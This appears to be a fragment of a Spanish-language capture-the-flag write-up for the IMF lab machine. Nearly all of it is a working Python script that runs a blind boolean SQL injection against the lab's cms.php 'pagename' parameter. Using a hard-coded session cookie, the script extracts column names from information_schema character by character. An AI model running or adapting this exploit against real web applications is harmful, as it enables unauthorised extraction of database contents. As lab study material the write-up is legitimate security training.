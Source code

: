 - Data:

    ![](/assets/images/IMF/Pasted-image-20240605131354.png)

A continuación, se enumeran las columnas:

```
#!/usr/bin/python3

from pwn import *
import requests, signal, sys, time, string

def ctrl_c(sig, frame):
    print("\n[!] Saliendo...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, ctrl_c)

# Variables globales
characters = string.ascii_lowercase + "_," + string.digits
main_url = "http://192.168.3.227/imfadministrator/cms.php?pagename="

def sqli():

    header = {
        'Cookie': 'PHPSESSID=a7rq935a1b6pmjphdgnkhn5kh2'
    }

    data = ""

    p1 = log.progress("SQLI")
    p1.status("Iniciando ataque de inyección SQL")

    time.sleep(2)

    p2 = log.progress("Data")

    for position in range(1, 100):
        for character in characters:

            sqli_url = main_url + "home' or substring((select group_concat(column_name) from information_schema.columns where table_schema='admin' and table_name='pages'),%d,1)='%s" % (position, character)

            r = requests.get(sqli_url, headers=header)

            if "Welcome to the IMF Administration." not in r.text:
                data += character
                p2.status(data)
                break

    p1.success("Ataque de inyección SQL finalizado exitosamente")
    p2.success(data)

if __name__ == '__main__':

    sqli()
```
